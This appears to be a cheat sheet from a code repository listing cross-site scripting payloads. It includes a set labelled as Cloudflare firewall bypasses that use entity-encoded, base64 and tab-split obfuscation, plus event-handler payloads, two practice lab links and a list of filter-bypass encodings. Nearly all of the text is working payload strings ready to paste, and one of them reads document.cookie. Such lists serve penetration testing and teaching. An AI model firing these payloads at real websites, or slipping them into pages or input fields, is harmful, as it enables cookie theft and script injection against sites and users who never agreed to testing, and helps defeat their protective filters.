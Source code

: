 ```html
"><script>alert(1)</script>
"><svg/onload=alert(1)>
```
### Cloudflare XSS Bypasses
```html
<svg/OnLoad="`${prompt``}`">
<svg/onload=%26nbsp;alert`bohdan`+
1'"><img/src/onerror=.1|alert``>
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
</script><svg><script>alert(1)-%26apos%3B
anythinglr00</script><script>alert(document.domain)</script>uxldz
anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<svg onload\r\n=$.globalEval("al"+"ert()");>
?"></script><base%20c%3D=href%3Dhttps:\mysite>
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
<a href=javas&#99;ript:alert(1)>
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
"><img src=x onerror=alert(document.cookie);.jpg
```

1. Characters ' " < > / // ( ) ^ script img svg div alert prompt 
2. Event Handlers

### White Characters Identifying XSS

- Special characters: `' " < > / // ( ) ^ script img svg div alert prompt`
- Event Handlers:

```bash
  Hello" onkeypress="prompt(1)
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```
practise excercise: websites:

https://prompt.ml/0
http://leettime.net/xsslab1/

### Bypassing XSS Filters

- Bypass using UTF-8 Encoding
- Bypass using Unicode Encoding
- Bypass using HTML Encoding
- Bypass using Octal Encoding
- Bypass using Common WAF Bypass
